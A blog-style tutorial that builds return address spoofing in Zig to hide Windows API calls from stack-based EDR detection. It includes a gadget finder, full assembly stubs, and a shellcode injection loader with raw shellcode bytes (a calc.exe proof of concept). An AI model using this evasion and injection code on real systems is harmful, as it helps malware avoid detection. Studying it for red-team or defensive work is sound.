










In this article, I will walk through the implementation of return address spoofing in Zig, along with lessons I learned while debugging assembly and compiler optimization issues.

## Return address spoofing

Return address spoofing is a technique to make a thread's call stack look legitimate. When a Windows API is called from shellcode or from a non-image-backed memory region, security products can flag it by walking the call stack. By spoofing the return address, the call appears to originate from a trusted module (e.g. inside `kernel32.dll`), bypassing stack-based detection.

The core mechanism is a ROP gadget — a short sequence of instructions already present in a loaded module. Specifically, `jmp qword ptr [rbx]` (bytes `0xFF 0x23`): instead of pushing a real return address, we push the gadget's address as the fake return address and set `rbx` to point to our cleanup code. When the target function returns, it executes the gadget which jumps to `[rbx]`, landing in our cleanup routine rather than the true call site.

There are more detailed articles.
- [x64 Return Address Spoofing](https://hulkops.gitbook.io/blog/red-team/x64-return-address-spoofing)
- [The Stack Series: Return Address Spoofing on x64](https://sabotagesec.com/the-stack-series-return-address-spoofing-on-x64/)

## First implementation

The implementation consists of three parts: a gadget finder, a config struct, and the assembly stub.

`find_gadget` walks the PE image of `kernel32.dll` in memory — parsing the DOS and NT headers to get the module's `SizeOfImage`, then scanning the full mapped region for the byte pattern `0xFF 0x23` (`jmp qword ptr [rbx]`).

`StackConfig` holds everything the assembly stub needs: the gadget address, the target function address, the argument list, and housekeeping fields (`p_ebx`). Its `init` function accepts arguments as an anonymous tuple and type-erases them to `usize` values via `@typeInfo`-based dispatch. It also pads the argument count to a minimum of 4 (Windows shadow space) and rounds up to keep 16-byte stack alignment.

`pe.zig` has the same struct defined in https://github.com/Hiroki6/zcircuit/blob/a1b26ed1afe8c5477f667f5e47d82706a3f301c4/src/ntdll.zig#L66.
```zig
const std = @import("std");
const win = std.os.windows;
const pe = @import("pe.zig");

pub extern "kernel32" fn GetModuleHandleA(lpModuleName: ?[*:0]const u8) callconv(.winapi) ?win.HINSTANCE;

pub fn find_gadget() ?usize {
    // 1. Get the base address of kernel32
    // We cast to [*:0]u8 to treat it as a pointer to a null-terminated byte array
    const h_module_raw = GetModuleHandleA("kernel32.dll") orelse return null;
    const h_module = @as([*:0]u8, @ptrCast(h_module_raw));

    // 2. Parse Headers to find SizeOfImage
    const dos_header: *pe.ImageDosHeader = @ptrCast(@alignCast(h_module));

    // Calculate NT Header address: base + e_lfanew
    const nt_headers: *pe.ImageNtHeaders64 = @ptrCast(@alignCast(@as(*u8, @ptrFromInt(@intFromPtr(h_module) + @as(usize, @intCast(dos_header.e_lfanew))))));

    const size_of_image = nt_headers.OptionalHeader.SizeOfImage;

    // 3. Create a slice of the entire module memory
    // Safety: We are assuming the module is fully mapped in our process space
    const module_slice = h_module[0..size_of_image];

    // 4. Search for the gadget: 0xFF 0x23 (jmp qword ptr [rbx])
    const pattern = [_]u8{ 0xFF, 0x23 };

    // std.mem.indexOf finds the first occurrence of the pattern
    if (std.mem.indexOf(u8, module_slice, &pattern)) |index| {
        return @intFromPtr(&module_slice[index]);
    }

    return null;
}

pub extern fn Spoof(config: *StackConfig) callconv(.winapi) usize;

pub const StackConfig = extern struct {
    /// Address of the 'jmp qword ptr [rbx]' gadget
    p_rop_gadget: usize,
    /// Address of the function to call (e.g., VirtualAlloc)
    p_target: usize,
    /// Count of arguments (e.g., 4 for MessageBoxA)
    arg_count: u32,
    /// Value to be restored/set in EBX/RBX by the gadget
    p_ebx: usize,
    /// Pointer to the array of arguments (stored as usize/u64)
    p_args: ?[*]usize,

    pub fn init(allocator: std.mem.Allocator, p_rop_gadget: usize, p_target: usize, args: anytype) !StackConfig {
        const arg_count = args.len;

        // Calculate required slots (minimum 4 for shadow space, plus 16-byte alignment)
        var adjusted_count: u32 = if (arg_count > 4) @intCast(arg_count) else 4;
        if (adjusted_count % 2 != 0) adjusted_count += 1;

        const buffer = try allocator.alloc(usize, adjusted_count);
        @memset(buffer, 0);

        // Fill the buffer using compile-time iteration
        inline for (args, 0..) |arg, i| {
            buffer[i] = switch (@typeInfo(@TypeOf(arg))) {
                .int, .comptime_int => @intCast(arg),
                .pointer => @intFromPtr(arg),
                .optional => if (arg) |ptr| @intFromPtr(ptr) else 0,
                .bool => @intFromBool(arg),
                .null => 0,
                else => @compileError("Unsupported type in StackConfig: " ++ @typeName(@TypeOf(arg))),
            };
        }

        return StackConfig{
            .p_rop_gadget = p_rop_gadget,
            .p_target = p_target,
            .arg_count = adjusted_count,
            .p_ebx = 0,
            .p_args = buffer.ptr,
        };
    }
};
```

The assembly stub (`Spoof`) is below: 
I mostly referred to the one from [this article](https://hulkops.gitbook.io/blog/red-team/x64-return-address-spoofing).

```asm
.intel_syntax noprefix
.text
.global Spoof

# Config struct offsets (matching Zig extern struct StackConfig)
# p_rop_gadget: usize  (offset 0)
# p_target:     usize  (offset 8)
# arg_count:    u32    (offset 16, with 4 bytes padding)
# p_ebx:        usize  (offset 24)
# p_args:       ?[*]usize (offset 32)
.set Config_pRopGadget, 0
.set Config_pTarget, 8
.set Config_dwArgCount, 16
.set Config_pRbx, 24
.set Config_pArgs, 32

Spoof:
    pop rdi

    mov r10, rcx                            # address of Config, which is passed as an argument in rcx
    mov r12d, [r10 + Config_dwArgCount]     # number of arguments are stored in r12
    sub r12d, 4                             # no. of arguments on stack, as the first 4 are stored in registers
    mov r13, [r10 + Config_pArgs]           # args
    mov rcx, [r13]                          # first arg
    mov rdx, [r13 + 8]                      # second arg
    mov r8, [r13 + 16]                      # third arg
    mov r9, [r13 + 24]                      # fourth arg

    # Calculate the size of additional arguments
    lea r12, [r12*8]
    sub rsp, r12                            # making space on the stack

.Lloop_start:
    cmp r12, 0                              # checking if the counter is zero
    jle .Lloop_end
    mov r15, rsp                            # copying stack pointer into temp variable
    add r15, r12                            # address where argument needs to be written
    sub r15, 8
    mov rax, [r13 + 24 + r12]               # copying argument into temp variable
    mov [r15], rax                          # writing argument on the stack
    sub r12, 8                              # decrementing the counter
    jmp .Lloop_start

.Lloop_end:
    mov r13d, [r10 + Config_dwArgCount]     # storing the argument count in a non-volatile register
    
    sub rsp, 32                             # shadow space
    mov rax, [r10 + Config_pRopGadget]      # copying return address to temp variable (Gadget's address)
    push rax                                # pushing the return address on the stack. RSP now ends in 8.
    
    lea rbx, [rip + .Lcleanup]              # setting the value of rbx. Rop gadget will jump to this address
    mov [r10 + Config_pRbx], rbx
    lea rbx, [r10 + Config_pRbx]
    mov r12, [r10 + Config_pTarget]
    jmp r12                                 # jumping to the target function

.Lcleanup:
    lea r13, [r13 * 8]
    add rsp, r13                            # reverting stack to its original state
    jmp rdi
```

## Test

For the test, a `jmp qword ptr [rbx]` gadget is embedded directly in the `.text` section (`export const jmp_rbx`) instead of scanning `kernel32.dll`, to keep the test self-contained. `displayReturnAddress` is called twice normally and then twice more via `Spoof`, so we can compare the reported return addresses.
```zig
const std = @import("std");
const eidolon = @import("eidolon");

fn displayReturnAddress() void {
    const ret_addr = @returnAddress();
    std.debug.print("Return address: 0x{x}\n", .{ret_addr});
}

export const jmp_rbx: [2]u8 linksection(".text") = .{ 0xFF, 0x23 };

pub fn main() !void {
    const allocator = std.heap.page_allocator;
    const gadget_addr = @intFromPtr(&jmp_rbx);
    _ = displayReturnAddress();
    _ = displayReturnAddress();
    const target_func_address = @intFromPtr(&displayReturnAddress);
    var foo_config = try eidolon.StackConfig.init(
        allocator,
        gadget_addr,
        target_func_address,
        .{}, // No arguments
    );
    _ = eidolon.Spoof(&foo_config);
    _ = eidolon.Spoof(&foo_config);
}
```

The first two addresses come from normal function calls and show the actual caller return addresses.
The return addresses for the two spoofed calls both point to the gadget (`jmp qword ptr [rbx]`), confirming the spoof works under an optimized build.
```powershell
> zig build -Doptimize=ReleaseSmall
```




### Segmentation Fault

However, running the same code as a debug build crashes.
I got a `segmentation fault`.

```powershell
> zig build
```



### Wrong register assignment

I debugged with x64dbg by comparing how the register values look like when it crashed in the `displayReturnAddress` function.
It crashed inside of the `std.debug.print` function.
When it didn't crash, the `rcx` has a proper address.


When it crashed, `rcx` held an invalid address (`0`). That was odd — I didn't immediately understand why `rcx` mattered at that point.


### Calling convention

In order to debug better, I added one argument to the `displayReturnAddress`.
```zig
fn displayReturnAddress(a: u8) void {
    _ = a;
    const ret_addr = @returnAddress();
    std.debug.print("Return address: 0x{x}\n", .{ret_addr});
}
```

Let's see what value `rcx` has when compiling with `zig build`.
Here is the screenshot when `displayReturnAddress` was called.
As you can see, argument 1 ended up in `rdx` instead of `rcx`.

According to the [x64 calling convention](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170), `rcx` should hold the first argument:
> Integer valued arguments in the leftmost four positions are passed in left-to-right order in RCX, RDX, R8, and R9, respectively



I wasn't sure exactly what was happening — perhaps Zig uses a different calling convention by default.
I added `callconv(.winapi)` to force the function to follow the Windows x64 ABI, where the first argument always goes in `rcx`.

```zig
fn displayReturnAddress(a: u8) callconv(.winapi) void {
    _ = a;
    const ret_addr = @returnAddress();
    std.debug.print("Return address: 0x{x}\n", .{ret_addr});
}
```

`rcx` now holds a proper value and the program runs correctly.




## Shellcode Injection

Now I'll inject shellcode as a real-world test.
The code is similar to [the one](https://github.com/Hiroki6/zcircuit/blob/a1b26ed1afe8c5477f667f5e47d82706a3f301c4/example/inject_shellcode.zig) without a direct system call for a test purpose.

Each Windows API call is made through `Spoof` rather than a direct call, so the call stack shows a return address inside `kernel32.dll` (the ROP gadget) rather than our code.
If it works properly, the `calc.exe` should be launched.

```zig
const std = @import("std");
const eidolon = @import("eidolon");
const win = std.os.windows;

// Windows API declarations
pub extern "kernel32" fn GetModuleHandleA(lpModuleName: ?[*:0]const u8) callconv(.winapi) ?win.HINSTANCE;
pub extern "kernel32" fn LoadLibraryA(lpLibFileName: [*:0]const u8) callconv(.winapi) ?win.HINSTANCE;
pub extern "kernel32" fn GetProcAddress(hModule: ?win.HINSTANCE, lpProcName: [*:0]const u8) callconv(.winapi) ?*anyopaque;

pub fn main() !void {
    const shellcode = [_]u8{ 0x48, 0x31, 0xff, 0x48, 0xf7, 0xe7, 0x65, 0x48, 0x8b, 0x58, 0x60, 0x48, 0x8b, 0x5b, 0x18, 0x48, 0x8b, 0x5b, 0x20, 0x48, 0x8b, 0x1b, 0x48, 0x8b, 0x1b, 0x48, 0x8b, 0x5b, 0x20, 0x49, 0x89, 0xd8, 0x8b, 0x5b, 0x3c, 0x4c, 0x01, 0xc3, 0x48, 0x31, 0xc9, 0x66, 0x81, 0xc1, 0xff, 0x88, 0x48, 0xc1, 0xe9, 0x08, 0x8b, 0x14, 0x0b, 0x4c, 0x01, 0xc2, 0x4d, 0x31, 0xd2, 0x44, 0x8b, 0x52, 0x1c, 0x4d, 0x01, 0xc2, 0x4d, 0x31, 0xdb, 0x44, 0x8b, 0x5a, 0x20, 0x4d, 0x01, 0xc3, 0x4d, 0x31, 0xe4, 0x44, 0x8b, 0x62, 0x24, 0x4d, 0x01, 0xc4, 0xeb, 0x32, 0x5b, 0x59, 0x48, 0x31, 0xc0, 0x48, 0x89, 0xe2, 0x51, 0x48, 0x8b, 0x0c, 0x24, 0x48, 0x31, 0xff, 0x41, 0x8b, 0x3c, 0x83, 0x4c, 0x01, 0xc7, 0x48, 0x89, 0xd6, 0xf3, 0xa6, 0x74, 0x05, 0x48, 0xff, 0xc0, 0xeb, 0xe6, 0x59, 0x66, 0x41, 0x8b, 0x04, 0x44, 0x41, 0x8b, 0x04, 0x82, 0x4c, 0x01, 0xc0, 0x53, 0xc3, 0x48, 0x31, 0xc9, 0x80, 0xc1, 0x07, 0x48, 0xb8, 0x0f, 0xa8, 0x96, 0x91, 0xba, 0x87, 0x9a, 0x9c, 0x48, 0xf7, 0xd0, 0x48, 0xc1, 0xe8, 0x08, 0x50, 0x51, 0xe8, 0xb0, 0xff, 0xff, 0xff, 0x49, 0x89, 0xc6, 0x48, 0x31, 0xc9, 0x48, 0xf7, 0xe1, 0x50, 0x48, 0xb8, 0x9c, 0x9e, 0x93, 0x9c, 0xd1, 0x9a, 0x87, 0x9a, 0x48, 0xf7, 0xd0, 0x50, 0x48, 0x89, 0xe1, 0x48, 0xff, 0xc2, 0x48, 0x83, 0xec, 0x20, 0x41, 0xff, 0xd6, 0xEB, 0xFE };
    const allocator = std.heap.page_allocator;

    // Get the address of the gadget as a usize to pass to your config
    // 1. Find the ROP gadget (jmp qword ptr [rbx])
    const gadget = eidolon.find_gadget() orelse {
        std.debug.print("Failed to find gadget\n", .{});
        return;
    };

    std.debug.print("[+] Found gadget at: 0x{X}\n", .{gadget});
    const kernel32 = LoadLibraryA("kernel32.dll") orelse {
        std.debug.print("Failed to load kernel32.dll\n", .{});
        return;
    };

    const create_thread = @intFromPtr(GetProcAddress(kernel32, "CreateThread") orelse {
        std.debug.print("Failed to get CreateThread address\n", .{});
        return;
    });
    std.debug.print("[+] CreateThread at: 0x{X}\n", .{create_thread});

    const virtual_alloc = @intFromPtr(GetProcAddress(kernel32, "VirtualAlloc") orelse {
        std.debug.print("Failed to get VirtualAlloc address\n", .{});
        return;
    });
    std.debug.print("[+] VirtualAlloc at: 0x{X}\n", .{virtual_alloc});

    const wait_for_single_object = @intFromPtr(GetProcAddress(kernel32, "WaitForSingleObject") orelse {
        std.debug.print("Failed to get WaitForSingleObject address\n", .{});
        return;
    });
    std.debug.print("[+] WaitForSingleObject at: 0x{X}\n", .{wait_for_single_object});
    var virtual_alloc_config = try eidolon.StackConfig.init(
        allocator,
        gadget,
        virtual_alloc,
        .{
            @as(usize, 0), // lpAddress: NULL, let OS choose
            shellcode.len, // dwSize
            0x3000, // MEM_COMMIT | MEM_RESERVE
            0x04, // PAGE_READWRITE
        },
    );
    //// 5. Execute the eidoloned call
    const addr = eidolon.Spoof(&virtual_alloc_config);
    std.debug.print("allocated: 0x{X}\n", .{addr});
    const buffer: [*]u8 = @ptrFromInt(addr);
    std.mem.copyForwards(u8, buffer[0..shellcode.len], &shellcode);

    // Change protection to PAGE_EXECUTE_READ
    const virtual_protect = @intFromPtr(GetProcAddress(kernel32, "VirtualProtect") orelse {
        std.debug.print("Failed to get VirtualProtect address\n", .{});
        return;
    });
    var old_protect: u32 = 0;
    var virtual_protect_config = try eidolon.StackConfig.init(
        allocator,
        gadget,
        virtual_protect,
        .{
            addr, // lpAddress
            shellcode.len, // dwSize
            @as(u32, 0x20), // PAGE_EXECUTE_READ
            @intFromPtr(&old_protect), // lpflOldProtect
        },
    );
    _ = eidolon.Spoof(&virtual_protect_config);

    var create_thread_config = try eidolon.StackConfig.init(
        allocator,
        gadget,
        create_thread,
        .{
            null, // lpAddress: NULL, let OS choose
            0, // dwSize
            addr,
            null,
            0,
            null,
        },
    );
    var h_thread: ?std.os.windows.HANDLE = null;
    h_thread = @ptrFromInt(eidolon.Spoof(&create_thread_config));

    var wait_for_single_object_config = try eidolon.StackConfig.init(
        allocator,
        gadget,
        wait_for_single_object,
        .{
            h_thread,
            @as(u32, 0xFFFFFFFF), // INFINITE
        },
    );
    const result = eidolon.Spoof(&wait_for_single_object_config);
    std.debug.print("finish: {}", .{result});
}
```

It works with a debug build.


### Failure with compile optimization

However, when I build it with different optimization, none of them worked.



I debugged for a while but couldn't pinpoint the cause — likely due to gaps in my reverse engineering skills. Since I couldn't identify anything obviously wrong in the code, I decided to rewrite `spoof.asm` from scratch, which would also deepen my assembly understanding.

## Store the original address into StackConfig and jmp it

After some research, I found useful hints in [another great article](https://sabotagesec.com/the-stack-series-return-address-spoofing-on-x64/).
I came up with some questions:

1. Should I use `r11` instead of `rdi`? Zig may clobber `rdi` under certain optimizations.
2. Should I store the return address in the config struct so that I can jump back to the original caller?
3. Should I save and restore non-volatile registers?

Based on these questions, I made the following changes.

1. Use `r11` instead of `rdi`

The difference is volatile vs. non-volatile. But somehow using `rdi` didn't work, and I also found that some implementations use `r11` (like in [the original implementation](https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html) of this technique).

2. Store return address and jump to it

Even after switching to `r11`, it still didn't work (though I'm not 100% sure why). So I decided to also store the return address in the config struct and use it to jump back explicitly.

In the assembly, `rbx` doesn't point to the base of the config struct — it points to the `p_ebx` field (via `lea rbx, [r10 + Config_pRbx]` in `.Lcleanup`).
So `rbx = config_base + 24`.
To reach `ret_addr` (at offset 40 from base), you need:

```
config_base + 40
  = rbx - 24 + 40
  = rbx + 16
```

Using the symbolic constants instead of hardcoding:

```
rbx + Config_retAddr - Config_pRbx
  = rbx + 40 - 24
  = rbx + 16
```

3. Push and pop non-volatile registers

I noticed I modify some non-volatile registers in the `Spoof` function, so I push them in the prologue and pop them in the epilogue.
```zig
pub const StackConfig = extern struct {
    ...
+    ret_addr: usize,

    pub fn init(allocator: std.mem.Allocator, p_rop_gadget: usize, p_target: usize, args: anytype) !StackConfig {
        const arg_count = args.len;
        ...

        return StackConfig{
            .p_rop_gadget = p_rop_gadget,
            .p_target = p_target,
            .arg_count = adjusted_count,
            .p_ebx = 0,
            .p_args = buffer.ptr,
+            .ret_addr = 0,
        };
    }
}
```

```asm
.intel_syntax noprefix
.text
.global Spoof

# Config struct offsets (matching Zig extern struct StackConfig)
# p_rop_gadget: usize  (offset 0)
# p_target:     usize  (offset 8)
# arg_count:    u32    (offset 16, with 4 bytes padding)
# p_ebx:        usize  (offset 24)
# p_args:       ?[*]usize (offset 32)
# ret_addr:     usize  (offset 40)
.set Config_pRopGadget, 0
.set Config_pTarget, 8
.set Config_dwArgCount, 16
.set Config_pRbx, 24
.set Config_pArgs, 32
.set Config_retAddr, 40

Spoof:
-    pop rdi
+    pop r11                                 
+    push rbx                                # save non-volatile registers
+    push r12
+    push r13
+    push r15

    mov r10, rcx                            # address of Config, which is passed as an argument in rcx
    mov [r10 + Config_retAddr], r11         # store return address in config (survives target call)
    mov r12d, [r10 + Config_dwArgCount]     # number of arguments are stored in r12
    sub r12d, 4                             # no. of arguments on stack, as the first 4 are stored in registers
    mov r13, [r10 + Config_pArgs]           # args
    mov rcx, [r13]                          # first arg
    mov rdx, [r13 + 8]                      # second arg
    mov r8, [r13 + 16]                      # third arg
    mov r9, [r13 + 24]                      # fourth arg

    # Calculate the size of additional arguments
    shl r12, 3                              # r12 = r12 * 8
    sub rsp, r12                            # making space on the stack

.Lloop_start:
    cmp r12, 0                              # checking if the counter is zero
    jle .Lloop_end
    mov r15, rsp                            # copying stack pointer into temp variable
    add r15, r12                            # address where argument needs to be written
    sub r15, 8
    mov rax, [r13 + 24 + r12]               # copying argument into temp variable
    mov [r15], rax                          # writing argument on the stack
    sub r12, 8                              # decrementing the counter
    jmp .Lloop_start

.Lloop_end:
    mov r13d, [r10 + Config_dwArgCount]     # storing the argument count in a non-volatile register
    
    sub rsp, 32                             # shadow space
    
    mov rax, [r10 + Config_pRopGadget]      # copying return address to temp variable (Gadget's address)
    push rax                                # pushing the return address on the stack. RSP now ends in 8.
    
    lea rbx, [rip + .Lcleanup]              # setting the value of rbx. Rop gadget will jump to this address
    mov [r10 + Config_pRbx], rbx
    lea rbx, [r10 + Config_pRbx]
    mov r12, [r10 + Config_pTarget]
    jmp r12                                 # jumping to the target function

.Lcleanup:
    shl r13, 3                              # r13 = r13 * 8
    add rsp, r13                            # reverting stack to its original state
-    jmp rdi
+    pop r15                                 # restore non-volatile registers
+    pop r13
+    pop r12
+    mov r11, [rbx + Config_retAddr - Config_pRbx]
+    pop rbx
+    jmp r11
```



## Conclusion

Through this project, I learned a few things:

- Calling convention: When targeting a specific operating system, make sure the compiler respects the calling convention.
- Non-volatile registers: if you modify these registers, push them onto the stack first to save them.
- Stack alignment: I encountered stack misalignment while experimenting with assembly. I didn't end up needing a manual fix in this case, but it's important to stay aware of.
    - [https://iamalonso.com/posts/shellcoding-1/#revisiting-the-stack]

I might still have some misconceptions and room to improve my assembly. Regardless, the next step is to implement [SilentMoonwalk](https://github.com/klezVirus/SilentMoonwalk) in Zig, which should deepen my understanding further.